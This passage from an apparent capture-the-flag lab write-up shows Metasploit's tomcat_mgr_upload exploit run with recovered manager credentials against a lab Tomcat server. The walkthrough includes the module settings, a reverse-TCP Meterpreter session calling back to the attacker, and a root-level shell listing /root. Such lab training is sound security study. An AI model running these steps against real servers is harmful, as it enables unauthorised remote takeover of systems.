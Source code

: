 ```
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.11     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal
```

Here are the options we need to set : 
```
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword bubbles
HttpPassword => bubbles
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.84.217
RHOSTS => 10.10.84.217
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 1234
RPORT => 1234
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST tun0
LHOST => tun0
```

Now we can run the exploit with `run` :  
```
msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on HIDDEN:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying uNRL0n7gt3WldJZQkd7fGUnD4O0gQx...
[*] Executing uNRL0n7gt3WldJZQkd7fGUnD4O0gQx...
[*] Undeploying uNRL0n7gt3WldJZQkd7fGUnD4O0gQx ...
[*] Sending stage (58829 bytes) to 10.10.84.217
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (HIDDEN:4444 -> 10.10.84.217:59436) at 2022-09-24 22:17:06 +0200

meterpreter >
```

And we have a meterpreter shell on the target ! Let's see who we are on the machine using `getuid` :  
```
meterpreter > getuid
Server username: root
```
**Question : What user did you get a shell as ?**  
**Answer : root**  

And we are already root. So now we have full control on the target machine. Let's get the root flag :  
```
meterpreter > cd /root
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100667/rw-rw-rwx  47    fil   2019-03-11 17:06:14 +0100  .bash_history
100667/rw-rw-rwx  3106  fil   2015-10-22 19:15:21 +0200  .bashrc
040777/rwxrwxrwx  4096  dir   2019-03-11 16:30:33 +0100  .nano
100667/rw-rw-rwx  148   fil   2015-08-17 17:30:33 +0200  .profile
```